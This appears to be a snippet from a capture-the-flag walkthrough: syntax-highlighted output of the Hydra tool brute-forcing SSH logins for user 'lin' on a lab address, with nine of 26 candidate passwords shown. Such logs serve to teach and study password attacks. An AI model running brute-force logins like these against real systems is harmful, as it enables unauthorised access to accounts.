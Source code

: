 Hydra (https://github.com/vanhauser-thc/thc-hydra) <span class="hljs-keyword">starting</span> <span class="hljs-keyword">at</span> <span class="hljs-number">2024</span><span class="hljs-number">-01</span><span class="hljs-number">-25</span> <span class="hljs-number">13</span>:<span class="hljs-number">22</span>:<span class="hljs-number">17</span>
[<span class="hljs-keyword">WARNING</span>] Many SSH configurations <span class="hljs-keyword">limit</span> the <span class="hljs-built_in">number</span> <span class="hljs-keyword">of</span> <span class="hljs-keyword">parallel</span> tasks, it <span class="hljs-keyword">is</span> recommended <span class="hljs-keyword">to</span> reduce the tasks: <span class="hljs-keyword">use</span> -t <span class="hljs-number">4</span>
[<span class="hljs-keyword">DATA</span>] <span class="hljs-keyword">max</span> <span class="hljs-number">16</span> tasks per <span class="hljs-number">1</span> <span class="hljs-keyword">server</span>, overall <span class="hljs-number">16</span> tasks, <span class="hljs-number">26</span> login tries (l:<span class="hljs-number">1</span>/p:<span class="hljs-number">26</span>), ~<span class="hljs-number">2</span> tries per task
[<span class="hljs-keyword">DATA</span>] attacking ssh://<span class="hljs-number">10.10</span><span class="hljs-number">.74</span><span class="hljs-number">.157</span>:<span class="hljs-number">22</span>/
[ATTEMPT] target <span class="hljs-number">10.10</span><span class="hljs-number">.74</span><span class="hljs-number">.157</span> - login <span class="hljs-string">"lin"</span> - pass <span class="hljs-string">"rEddrAGON"</span> - <span class="hljs-number">1</span> <span class="hljs-keyword">of</span> <span class="hljs-number">26</span> [<span class="hljs-keyword">child</span> <span class="hljs-number">0</span>] (<span class="hljs-number">0</span>/<span class="hljs-number">0</span>)
[ATTEMPT] target <span class="hljs-number">10.10</span><span class="hljs-number">.74</span><span class="hljs-number">.157</span> - login <span class="hljs-string">"lin"</span> - pass <span class="hljs-string">"ReDdr4g0nSynd!cat3"</span> - <span class="hljs-number">2</span> <span class="hljs-keyword">of</span> <span class="hljs-number">26</span> [<span class="hljs-keyword">child</span> <span class="hljs-number">1</span>] (<span class="hljs-number">0</span>/<span class="hljs-number">0</span>)
[ATTEMPT] target <span class="hljs-number">10.10</span><span class="hljs-number">.74</span><span class="hljs-number">.157</span> - login <span class="hljs-string">"lin"</span> - pass <span class="hljs-string">"Dr@gOn$yn9icat3"</span> - <span class="hljs-number">3</span> <span class="hljs-keyword">of</span> <span class="hljs-number">26</span> [<span class="hljs-keyword">child</span> <span class="hljs-number">2</span>] (<span class="hljs-number">0</span>/<span class="hljs-number">0</span>)
[ATTEMPT] target <span class="hljs-number">10.10</span><span class="hljs-number">.74</span><span class="hljs-number">.157</span> - login <span class="hljs-string">"lin"</span> - pass <span class="hljs-string">"R3DDr46ONSYndIC@Te"</span> - <span class="hljs-number">4</span> <span class="hljs-keyword">of</span> <span class="hljs-number">26</span> [<span class="hljs-keyword">child</span> <span class="hljs-number">3</span>] (<span class="hljs-number">0</span>/<span class="hljs-number">0</span>)
[ATTEMPT] target <span class="hljs-number">10.10</span><span class="hljs-number">.74</span><span class="hljs-number">.157</span> - login <span class="hljs-string">"lin"</span> - pass <span class="hljs-string">"ReddRA60N"</span> - <span class="hljs-number">5</span> <span class="hljs-keyword">of</span> <span class="hljs-number">26</span> [<span class="hljs-keyword">child</span> <span class="hljs-number">4</span>] (<span class="hljs-number">0</span>/<span class="hljs-number">0</span>)
[ATTEMPT] target <span class="hljs-number">10.10</span><span class="hljs-number">.74</span><span class="hljs-number">.157</span> - login <span class="hljs-string">"lin"</span> - pass <span class="hljs-string">"R3dDrag0nSynd1c4te"</span> - <span class="hljs-number">6</span> <span class="hljs-keyword">of</span> <span class="hljs-number">26</span> [<span class="hljs-keyword">child</span> <span class="hljs-number">5</span>] (<span class="hljs-number">0</span>/<span class="hljs-number">0</span>)
[ATTEMPT] target <span class="hljs-number">10.10</span><span class="hljs-number">.74</span><span class="hljs-number">.157</span> - login <span class="hljs-string">"lin"</span> - pass <span class="hljs-string">"dRa6oN5YNDiCATE"</span> - <span class="hljs-number">7</span> <span class="hljs-keyword">of</span> <span class="hljs-number">26</span> [<span class="hljs-keyword">child</span> <span class="hljs-number">6</span>] (<span class="hljs-number">0</span>/<span class="hljs-number">0</span>)
[ATTEMPT] target <span class="hljs-number">10.10</span><span class="hljs-number">.74</span><span class="hljs-number">.157</span> - login <span class="hljs-string">"lin"</span> - pass <span class="hljs-string">"ReDDR4g0n5ynDIc4te"</span> - <span class="hljs-number">8</span> <span class="hljs-keyword">of</span> <span class="hljs-number">26</span> [<span class="hljs-keyword">child</span> <span class="hljs-number">7</span>] (<span class="hljs-number">0</span>/<span class="hljs-number">0</span>)
[ATTEMPT] target <span class="hljs-number">10.10</span><span class="hljs-number">.74</span><span class="hljs-number">.157</span> - login <span class="hljs-string">"lin"</span> - pass <span class="hljs-string">"R3Dr4gOn2044"</span> - <span class="hljs-number">9</span> <span class="hljs-keyword">of</span> <span class="hljs-number">26</span> [<span class="hljs-keyword">child</span> <span class="hljs-number">8</span>] (<span class="hljs-number">0</span>/<span class="hljs-number">0</span>)